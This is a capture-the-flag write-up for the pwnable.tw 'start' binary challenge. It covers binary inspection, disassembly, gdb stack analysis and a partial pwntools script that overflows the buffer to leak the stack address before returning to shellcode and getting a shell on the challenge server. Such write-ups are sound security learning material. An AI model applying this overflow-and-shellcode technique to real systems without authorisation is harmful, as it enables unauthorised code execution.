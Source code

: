 ```yaml
---
layout: single_c
title:  "Pwnable.tw Level 1 - Start"
date:   2019-08-14 1:00:16 +0530
categories: Pwnabletw
tags: ctf
classes: wide
--- 
```

### [Pwnable.tw Level 1 - start](https://pwnable.tw/challenge/#1)

file start
```
itpc@iTPC-LT31:~/Downloads$ file orw
orw: ELF 32-bit LSB executable, <br>  
Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32,     
BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

./checksec.sh --file ./start
itpc@iTPC-LT31:~/Downloads$ ./checksec.sh --file ./start 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   ./start

itpc@iTPC-LT31:~/Downloads$ readelf -l start

Elf file type is EXEC (Executable file)
Entry point 0x8048060
There are 1 program headers, starting at offset 52

Program Headers:
Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
LOAD           0x000000 0x08048000 0x08048000 0x000a3 0x000a3 R E 0x1000

Section to Segment mapping:
Segment Sections...
00     .text 


objdump -d start -M intel

itpc@iTPC-LT31:~/Downloads$ objdump -d start -M intel

start:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
8048060:	54                   	push   esp
8048061:	68 9d 80 04 08       	push   0x804809d
8048066:	31 c0                	xor    eax,eax
8048068:	31 db                	xor    ebx,ebx
804806a:	31 c9                	xor    ecx,ecx
804806c:	31 d2                	xor    edx,edx
804806e:	68 43 54 46 3a       	push   0x3a465443
8048073:	68 74 68 65 20       	push   0x20656874
8048078:	68 61 72 74 20       	push   0x20747261
804807d:	68 73 20 73 74       	push   0x74732073
8048082:	68 4c 65 74 27       	push   0x2774654c
8048087:	89 e1                	mov    ecx,esp
8048089:	b2 14                	mov    dl,0x14
804808b:	b3 01                	mov    bl,0x1
804808d:	b0 04                	mov    al,0x4
804808f:	cd 80                	int    0x80
8048091:	31 db                	xor    ebx,ebx
8048093:	b2 3c                	mov    dl,0x3c
8048095:	b0 03                	mov    al,0x3
8048097:	cd 80                	int    0x80
8048099:	83 c4 14             	add    esp,0x14
804809c:	c3                   	ret    

0804809d <_exit>:
804809d:	5c                   	pop    esp
804809e:	31 c0                	xor    eax,eax
80480a0:	40                   	inc    eax
80480a1:	cd 80                	int    0x80
``` 

itpc@iTPC-LT31:~/Downloads$ ./start
Let's start the CTF:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

```
gdb-peda$ disas _start 
Dump of assembler code for function _start:
0x08048060 <+0>:	push   esp
0x08048061 <+1>:	push   0x804809d
0x08048066 <+6>:	xor    eax,eax
0x08048068 <+8>:	xor    ebx,ebx
0x0804806a <+10>:	xor    ecx,ecx
0x0804806c <+12>:	xor    edx,edx
0x0804806e <+14>:	push   0x3a465443
0x08048073 <+19>:	push   0x20656874
0x08048078 <+24>:	push   0x20747261
0x0804807d <+29>:	push   0x74732073
0x08048082 <+34>:	push   0x2774654c
0x08048087 <+39>:	mov    ecx,esp
0x08048089 <+41>:	mov    dl,0x14
0x0804808b <+43>:	mov    bl,0x1
0x0804808d <+45>:	mov    al,0x4
0x0804808f <+47>:	int    0x80
0x08048091 <+49>:	xor    ebx,ebx
0x08048093 <+51>:	mov    dl,0x3c
0x08048095 <+53>:	mov    al,0x3
0x08048097 <+55>:	int    0x80
0x08048099 <+57>:	add    esp,0x14
0x0804809c <+60>:	ret    
End of assembler dump.
gdb-peda$ break *_start+57
Breakpoint 1 at 0x8048099


gdb-peda$ r
Starting program: /home/itpc/Downloads/start 
Let's start the CTF:AAAABBBB

[----------------------------------registers-----------------------------------]
SNIPPPED
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048099 in _start ()

gdb-peda$ x/20wx $esp
0xffffd114:	0x41414141	0x42424242	0x2074720a	0x20656874
0xffffd124:	0x3a465443	0x0804809d	0xffffd130	0x00000001
0xffffd134:	0xffffd300	0x00000000	0xffffd31b	0xffffd326
0xffffd144:	0xffffd338	0xffffd368	0xffffd37e	0xffffd3af
0xffffd154:	0xffffd3c0	0xffffd3d4	0xffffd3e4	0xffffd407


we can see return value at offset 20 and saved esp at offset 24. The saved esp points to the value next to it
leak 


if we return to write esp which points to saved esp

0x08048087 <+39>:	mov    ecx,esp
0x08048089 <+41>:	mov    dl,0x14
0x0804808b <+43>:	mov    bl,0x1
0x0804808d <+45>:	mov    al,0x4
0x0804808f <+47>:	int    0x80
0x08048091 <+49>:	xor    ebx,ebx
0x08048093 <+51>:	mov    dl,0x3c
0x08048095 <+53>:	mov    al,0x3
0x08048097 <+55>:	int    0x80
0x08048099 <+57>:	add    esp,0x14
0x0804809c <+60>:	ret    
```

now write comes again we can overflow again and add shellcode and overwrite the ret value to point to shellcode 
our shell code wil be at leaked esp+20

from pwn import *
r = remote('chall.pwnable.tw', 10000)
buf="A"*20
buf+=p32(0x08048087)
r.recvuntil('CTF:')
r.send(buf)
esp=u32(r.recv()[:4])
print ("[+]ESP is at "+hex(esp))

itpc@iTPC-LT31:~/Downloads/pwnable.tw$ python start.py 
[+] Opening connection to chall.pwnable.tw on port 10000: Done
[+]ESP is at 0xffc8a790

now lets put together the exploit

start.py

and run it

itpc@iTPC-LT31:~/Downloads/pwnable.tw$ python start.py 
[+] Opening connection to chall.pwnable.tw on port 10000: Done
[+]ESP is at 0xff846ad0
[+]Sending Payload
[*] Switching to interactive mode
$ cd /home/start
$ ls
flag
run.sh
start

solved